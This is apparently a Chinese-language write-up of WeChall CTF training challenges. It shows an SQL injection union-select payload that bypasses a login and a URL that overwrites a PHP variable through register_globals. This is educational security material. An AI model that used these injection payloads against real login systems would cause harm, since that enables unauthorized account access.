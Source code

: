 `$result['password']`是用union构造的，因此password一栏填写`password`即可登录成功。

username填写 `123' union select 1,'admin',md5('password');#`
password填写 `password`

# Training: WWW-Basics



# Training: Register Globals

这题和[mysql I](https://www.tuziang.com/combat/1616.html)那题很类似，但是由于加了一个判断：

```
if (strtolower($login[0]) === 'admin') {
        $chall->onChallengeSolved(GWF_Session::getUserID());
}
```

判断中的`$login[0]`在28行已经被赋值为`$_POST['username']`。

所以不能通过将username的值提交成`admin'#`来完成这题。

从32行开始，有下面这段代码：

```
if (isset($login))
{
        echo GWF_HTML::message('Register Globals', $chall->lang('msg_welcome_back', array(htmlspecialchars($login[0]), htmlspecialchars($login[1]))));
        if (strtolower($login[0]) === 'admin') {
                $chall->onChallengeSolved(GWF_Session::getUserID());
        }
}
```

意思是：如果`$login[0] === 'admin'`，那么解题成功。

由于在28行**已经**有下面代码：

```
$login = array($_POST['username'], (int)$row['level']);
```

因而，`$login[0]`已经被赋值为`$_POST['username']`，但是可以通过全局变量来覆盖它。

在这里，程序会将GET等语句得到的变量注册成为全局变量，就可以覆盖掉源代码中的变量值。

因此在地址栏输入下面链接,回车即可成功解题

```
http://www.wechall.net/challenge/training/php/globals/globals.php?login[0]=admin
```

# Training: Math Pyramid

题目要求： 求出方锥体积公式，公式所用字符不得超过9。

